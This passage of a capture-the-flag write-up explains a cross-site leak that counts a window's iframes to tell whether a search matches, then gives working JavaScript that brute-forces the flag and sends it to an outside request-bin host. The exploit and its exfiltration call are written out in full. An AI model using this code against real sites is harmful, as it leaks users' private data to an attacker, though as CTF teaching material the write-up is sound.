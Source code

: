 ```
/?term=INTENT&num=1
/?term=asdf&num=2
```

Exactly as we expected, for the term `asdf` we get two `iframe`s - one is the from the message content and one is to inform that no results were found. For the `INTENT` query, we just get one `iframe` - the one from the message content.

Using this technique, we can brute force the flag one character at a time:

```javascript
      const delay = ms => new Promise(res => setTimeout(res, ms));

      const get_num_iframes_for_search = async function(term) 
      {
        const uri_prefix = "https://signull.chal.intentsummit.org#";
        window.parent.location = uri_prefix + encodeURIComponent(term);
        await delay(100);
        return window.parent.frames.length;
      }

      const run = async function() 
      {
        const printable = "e3t7a@4o0i1!_ns5$hrdlcumwfg6ypbvkjxqz289\"#%&'()*+,-./:;<=>?[\\]^`{|}~";
        const base_num_iframes = window.parent.frames.length;
        const request_bin = "https://enswwrsynfpwo.x.pipedream.net/";
        let current_flag = "INTENT{";

        fetch(`${request_bin}?starting`);

        for(let counter = 0; counter < 30; counter++)
        {
          let found = false;
          for(c of printable)
          {
            const num_iframes = await get_num_iframes_for_search(current_flag + c);
            if(num_iframes == base_num_iframes)
            {
              found = true;
              current_flag += c;
              break;
            }
          }

          if ( (!found) || (current_flag[-1] == "}") )
          {
            break;
          }
        }

        fetch(`${request_bin}?flag=${btoa(current_flag)}`);

      }

      (async () => {
        await run();
      })();
```
